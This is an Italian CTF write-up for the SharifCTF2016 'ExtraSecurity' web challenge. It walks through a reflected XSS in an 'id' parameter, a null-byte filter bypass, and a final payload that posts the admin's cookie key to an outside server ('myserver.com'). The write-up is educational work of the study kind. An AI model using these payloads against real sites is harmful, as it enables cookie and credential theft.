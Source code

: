 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [web,SharifCTF2016]
author: jbz
---
```


Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.

![L'homepage della challenge](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_1.png)

veniva offerta la possibilità di firmare con la propria chiave (impostata dal server in un cookie 'KEY') o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifica.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi sarebbe intervenuto l'XSS Auditor.

Il primo problema consisteva nel fatto che nella propria pagina per effettuare la firma, all'invio del form, veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>`

Dal sorgente pagina si poteva notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che è quello che causava la reindirizzazione.

Più in basso si notava anche il seguente codice, che però non veniva eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuiva subito che il campo GET `id` era plausibilmente vulnerabile ad XSS ma che un filtro custom bloccava le richieste contenenti la maggior parte delle keyword o simboli usati per tale scopo: eval, alert, document, this, etc. C'era inoltre un limite di caratteri che rendeva impossibile l'utilizzo di (jsfuck)[http://www.jsfuck.com].

La nostra idea era quella di sfruttare la vulnerabilità nel campo `id`, il cui contenuto veniva riflesso sia nel primo script che nel secondo per rubare il cookie `KEY` all'admin ed effettuare la firma in autonomia.

Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in postForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step è trovare un modo per rompere il primo script ma non il secondo, e questo è possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1`

Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge `prompt(c['KEY'])` (equivalente di `alert(c['KEY']` ma non filtrato), e crea un nuovo dict per completare la sintassi già esistente.

Risulta quindi

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola `post`, `xml` o simili faceva scattare il filtro.
Dopo diversi tentativi, avendo intuito che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziammo a provare inserendo null bytes (%00) e altri caratteri come %0a e %0d.
Una volta scoperto che effettivamente il filtro falliva a processare qualsiasi cosa posta dopo un null byte, continuando i test notammo che il bypass funzionava anche effettuando il double encode di %00, cioè %2500 il che preveniva che il null byte venisse stampato nella pagina, che per qualche motivo causava qualche problema nell'esecuzione dello script (al momento del writeup non riesco a riprodurre il problema..).

Il payload finale quindi consisteva in:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1`

Che risulta nel seguente codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da `garbage` in poi il codice serviva solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non si è mai considerato in quanto la XSS non richiede tag HTML poiché il payload finisce già all'interno di tag `<script>`.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.